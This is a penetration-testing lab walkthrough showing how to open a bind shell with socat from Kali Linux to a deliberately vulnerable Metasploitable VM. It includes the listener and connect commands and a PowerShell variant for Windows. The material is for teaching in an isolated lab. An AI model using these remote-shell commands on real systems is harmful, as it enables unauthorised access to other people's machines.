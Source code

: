 **Lab Objective:**

Learn how to use the socat tool to get a bind shell on a target.

**Lab Purpose:**

Socat is a command line-based utility that establishes two bi-directional byte streams and transfers data between them. Socat can be used for many different purposes due to its versatility.

**Lab Tool:**

Kali Linux and Metasploitable VM.

**Lab Topology:**

You can use Kali Linux in a VM for this lab.

**Lab Walkthrough:**

### Task 1:

In this lab, we will be using socat to create a bind shell on a metasploitable machine. If you are unfamiliar with metasploitable, it is an intentionally vulnerable machine which can be loaded in VMware, the same as Kali Linux. You can download the metasploitable iso file here: [https://docs.rapid7.com/metasploit/metasploitable-2/](https://docs.rapid7.com/metasploit/metasploitable-2/)

You can find a lot of material on this page on how to download and setup the Metasploitable VM.

![Metasploitable VM](attachements/Metasploitable_VM-1.png)

We will use both Kali Linux and Metasploitable for this lab. Remember to put both machines on the same isolated host-only network to talk to each other. When login is required, you will enter “**msfadmin**” as username and password.

### Task 2:

Socat comes pre-installed on Kali Linux. The main difference between netcat and socat is that the syntax for using socat is more difficult to understand. Socat is used to make connections between two points. These points can be anything. We will begin by creating a bind shell connecting our Kali VM to our Metasploitable VM.

First, let’s find out the eth0 IP address of our Metasploitable VM and write it down. We will use this information on our Kali VM. Open a terminal screen in Metasploitable VM and type this command:

ifconfig

![Metasploitable VM](attachements/Metasploitable_VM-3.png)

192.168.56.102 is IP address of our Metasploitable VM in this case.

Then, establish a listener on our Metasploitable VM by typing the following:

socat TCP-L:8080 EXEC:”bash -li”

This creates a listener on our Metasploitable VM and is the equivalent to typing “nc -lvnp 8080” in netcat.

### Task 3:

We will then switch to our Kali VM and type the following to connect to our Metasploitable VM:

socat TCP:192.168.56.102:8080 –

If we return to our Kali terminal and attempt to execute commands such as “id” and “whoami”, we can see that we have successfully established a shell to our Metasploitable VM.

![socat](attachements/socat-1.png)

This is an unstable bind shell and it is non-interactive, as you can see processes such as SSH do not work. Ctrl + c will also kill the shell. This is a useful technique to know, however, in the event that netcat does not work. Socat is also very versatile and it is much easier to stabilise the shell, as you will see in a later lab.

If we were to attempt to establish a bind shell using socat on a windows machine, we would need to change the syntax of the listener on our Windows machine. The syntax for our listener on a Windows machine would change to the following:

socat TCP-L:8080 EXEC:powershell.exe,pipes

This command will use the Windows Powershell instead of bash to create the shell. The pipes option forces powershell to use Unix style standard input and output, which makes it easier for us to use the shell.
